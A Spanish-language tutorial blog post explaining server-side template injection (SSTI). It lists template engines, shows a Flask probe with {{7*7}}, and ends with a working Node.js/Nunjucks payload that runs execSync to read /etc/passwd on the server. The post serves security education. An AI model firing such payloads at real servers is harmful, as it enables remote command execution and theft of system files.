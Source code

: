 ```yaml
---
title: "SSTI (Server-Side Template Injection)"
author: Tuch0
date: 2023-09-17
categories:
  - Vectores-de-Ataque
tags:
  - SSTI
image:
  path: ../../assets/Miniaturas/VectoresDeAtaque/ssti.png
  width: 800
  height: 500
---
```


### ¿Qué es?

> STTI es una vulnerabilidad que aprovecha una implementación insegura de un motor de plantillas (template engine), a tráves del aprovechamiento de esta vulnerabilidad es posible atacar directamente a los componenetes internos del servidor web del objetivo
{: .prompt-info }

### Algunos motores de plantillas

- PHP: **Smarty, Twing**
- Java: **Velocity, FreeMaker**
- Python: **Jinja, Mako, Tornado**
- JavaSript: **Jade, Range**
- Ruby **Liquid**

## Ejemplo

![](../../assets/VectoresDeAtaque/SSTI-(Server-Side-Template-Inyection)/1.jpg)

> Esta es la página web , como vemos si nosotros ingresamo cualquier dato , nos sale representado en pantalla ya que si analizamos las tecnologias tiene FLASK

![](../../assets/VectoresDeAtaque/SSTI-(Server-Side-Template-Inyection)/2.jpg)

> Para saber si es vulnerable a SSTI lo que podemos hacer es probar esta traza: {{7*7}} , si esto funciona por pantalla podremos ver el resultado de la operatoria
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SSTI-(Server-Side-Template-Inyection)/3.jpg)

> Ahora que sabemos que es vulnerable podemos leer y asta ejecutar comandos
{: .prompt-info }

> Payloads Interesantes : **https//github.com/swisskyrep/PayloadsAllTheThings**

![](../../assets/VectoresDeAtaque/SSTI-(Server-Side-Template-Inyection)/4.jpg)

![](../../assets/VectoresDeAtaque/SSTI-(Server-Side-Template-Inyection)/5.jpg)

#### RCE - NodeJS - STTI

> https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

```bash
{
	"email":
	"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}"
}
```